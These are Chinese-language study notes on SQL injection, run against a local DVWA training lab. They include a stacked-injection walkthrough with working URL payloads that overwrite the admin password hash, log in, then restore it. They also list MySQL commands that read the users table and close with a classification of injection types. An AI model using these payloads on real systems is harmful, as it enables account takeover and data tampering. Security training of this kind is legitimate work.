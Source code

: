    - ```php
      mysqli_multi_query($GLOBALS["___mysqli_ston", $query]);
      $result = mysqli_use_result($GLOBALS["___mysqli_ston"]);
      ```

  - 测试更新 API 后的功能

    - 输入 1 ，submit，获得结果



#### 堆叠注入实战

- 使用报错注入获得的已知信息
  - 包含数据库结构，数据表结构及用户账户信息
- 在测试过程中，也许password解密难度很高，无法解密（很常见）
  - 这时我们就可以使用堆叠注入，对admin账户的password进行更新。 
  - 成功登录之后再进行复原。 
  - 使用已知密码123456，通过 https://www.cmd5.com/hash.aspx?s=123456 获得 MD5密文，e10adc3949ba59abbe56e057f20f883e
  - 基于堆叠注入，更改账号密码，http://127.0.0.1:81/vulnerabilities/sqli/?id=1'; update users set password='e10adc3949ba59abbe56e057f20f883e' where user_id=1; -- &Submit=Submit#
  - 重新登录，用户名 admin，密码 123456，登录成功
  - 将账号密码，更改回原来的状态，http://127.0.0.1:81/vulnerabilities/sqli/?id=1'; update users set password='5f4dcc3b5aa765d61d8327deb882cf99' where user_id=1; -- &Submit=Submit#
  - 此时刚才登录的账号，并不会因为数据库中的密码不一样了，而发生退出现象
- 在 容器内部的数据库查看用户表的信息数据
  - 登录：mysql -u root -p
  - show databases;
  - use dvwa;
  - show tables;
  - select * from users;



### OOB 注入

#### SQL注入的不同类型 

- SQL注入主要分为以下5种

  - Error-based SQL injection（报错型注入）
  - UNION query SQL injection（可联合查询注入）
  - Boolean-based blind SQL injection（布尔型注入）
  - Time-based blind SQL injection（基于时间延迟注入）
  - Stacked queries SQL injection（可多语句查询注入） 

- SQL 注入的 5 种类型 ---> 进一步抽象 

  - | 攻击类别    | SQL注入类型                                                  | 说明                                                 |
    | ----------- | ------------------------------------------------------------ | ---------------------------------------------------- |
    | INBAND      | Error-based Injecction <br />UNION query Injection           | 在应用内直接获取数据，通过应用的返回或者报错提取数据 |
    | INFERENCE   | Boolean-based Blind Injection <br />Time-based Blind Injection | 通过应用的非直接数据反馈进行推断                     |
    | OUT OF BAND | OOB SQL Injection                                            | 通过其他**信道**获得数据                             |
